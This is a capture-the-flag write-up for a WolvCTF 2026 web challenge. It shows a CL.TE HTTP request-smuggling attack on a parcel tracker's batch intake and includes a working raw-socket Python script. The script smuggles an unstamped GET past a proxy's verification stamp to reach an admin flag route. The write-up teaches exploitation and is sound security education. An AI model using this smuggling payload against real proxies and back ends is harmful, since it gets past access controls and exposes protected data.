

## Recon

The parcel tracker has a public `/track` page, and its `robots.txt` points at an otherwise unlinked route, `/internal/admin/flag`, that holds the record kept for review. Direct access to it is denied because the intake desk marks relayed requests as desk-side.



```bash
$ curl -s -i https://desync-delivery-web.wolvctf-2026.kctf.cloud/internal/admin/flag
HTTP/2 403

Operations records are available only to depot-side requests.
```

The handoff note explains both the batch interface and the trust boundary:

```bash
$ curl -s https://desync-delivery-web.wolvctf-2026.kctf.cloud/handoff.txt
Bulk intake is available at /intake. The desk and depot share a connection,
but their ledgers sometimes disagree about where a parcel ends.
The desk stamps each request it checks with X-Proxy-Verified: 1.
```

A batch body contains raw HTTP items. The desk stamps each item it recognizes, and the depot refuses the held record when that stamp is present. Our goal is therefore not header forgery: we need the depot to parse an unstamped request from bytes that the desk regarded as a body.

Probes show the required framing differential. The desk uses an item's `Content-Length`, even when `Transfer-Encoding: chunked` is also present; the depot honors chunked framing instead. This is CL.TE desync at the batch-item level: the front end sizes by `Content-Length` while the back end honours `Transfer-Encoding: chunked`.

## Exploitation

We make one item a POST with both headers. Its body is a five-byte zero-chunk terminator followed by our 37-byte GET, so `Content-Length` is 42. The desk consumes all 42 bytes and stamps only the POST. The depot stops at the zero chunk and parses the remaining bytes as a fresh, unstamped request. A normal tracking item after it makes the response boundaries easy to recognize.

We save the raw-request client as `solve.py`. The outer request uses ordinary HTTP/1.1 over TLS; the script forces HTTP/1.1 with ALPN, the TLS extension that negotiates the application protocol, and constructs the inner bytes explicitly so no HTTP library normalizes away the conflicting headers:

```python
import socket, ssl
H = "desync-delivery-web.wolvctf-2026.kctf.cloud"
smuggled = b"GET /internal/admin/flag HTTP/1.0\r\n\r\n"
body = b"0\r\n\r\n" + smuggled
item = (b"POST /track HTTP/1.0\r\n"
        + f"Content-Length: {len(body)}\r\n".encode()
        + b"Transfer-Encoding: chunked\r\n\r\n" + body)
batch = item + b"GET /track?id=ANCH HTTP/1.0\r\n\r\n"
outer = (f"POST /intake HTTP/1.1\r\nHost: {H}\r\n"
         f"Content-Length: {len(batch)}\r\nConnection: close\r\n\r\n").encode() + batch
ctx = ssl.create_default_context()
ctx.set_alpn_protocols(["http/1.1"])
with socket.create_connection((H, 443), timeout=10) as tcp:
    with ctx.wrap_socket(tcp, server_hostname=H) as s:
        s.sendall(outer)
        response = b""
        while True:
            data = s.recv(65536)
            if not data:
                break
            response += data
print(response.decode("latin1"))
```

## Flag capture

The relay returns three depot responses: the stamped POST, our unstamped GET, and the trailing tracking request. The second response is the one that crosses the desk/depot trust boundary.

Running it produces the flag in the second response:

```bash
$ python solve.py
HTTP/1.1 200 OK
...
HTTP/1.1 200 OK
Content-Length: 39

wctf{d3a4c99b17f04e0284cf7d9216a35b70}
HTTP/1.1 200 OK
...
```
